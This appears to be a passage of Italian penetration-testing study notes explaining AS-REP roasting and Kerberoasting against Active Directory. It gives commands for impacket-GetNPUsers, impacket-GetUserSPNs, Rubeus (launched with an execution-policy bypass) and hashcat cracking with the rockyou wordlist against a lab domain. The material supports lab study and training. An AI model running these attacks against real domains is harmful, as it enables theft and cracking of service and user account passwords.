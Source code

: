 ```bash
impacket-GetNPUsers -dc-ip $IP_TARGET  -request -outputfile hashes.asreproast $DOMAIN_NAME/$USER_NAME

Esempio:

impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete

hashcat --help | grep -i "Kerberos"

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

2) Utilizzo di _Rubeus.exe_ da windows:

```bash
powershell -ep bypass

.\Rubeus.exe asreproast /nowrap
```

Una volta ottenuto l'hash tramite _Rubeus_ occorre utilizzare _hashcat_ per ricavare la password.

## 22.2.3. Kerberoasting

Se un utente vuole accedere ad una risorsa gestita (hosted) dal Service Principal Name (SPN), deve prima richiedere un ticket al domain controller. Il ticket per il servizio è decriptato e validato dall'application server, dopo essere stato criptato tramite l'hash password dell'SPN

Quando viene richiesto il ticket al domain controller, non sono effettuati controlli sul permesso che ha l'utente di accedere al servizio da lui richiesto. Questo vuol dire che se l'attaccante conosce l'SPN target, può richiedere un ticket per questo al domain controller.

In tal caso, una volta ricevuto il ticket si potrebbe provare a ricavare l'hash password dell'SPN e provare a decriptarlo ricavando così la password dell'account di servizio.

Questo attacco prende il nome di _Kerberoasting_.

Come prima, ci sono due modi per eseguire questo attacco:
1) Da kali
2) Dalla macchina windows

1) Utilizzo di _impacket-GetUserSPNs_ per eseguire l'attacco e di _hashcat_ per ricavare la password:

```bash
sudo impacket-GetUserSPNs -request -dc-ip $IP_TARGET $DOMAIN_NAME/$USER_NAME

Esempio:

sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete

hashcat --help | grep -i "Kerberos"

sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
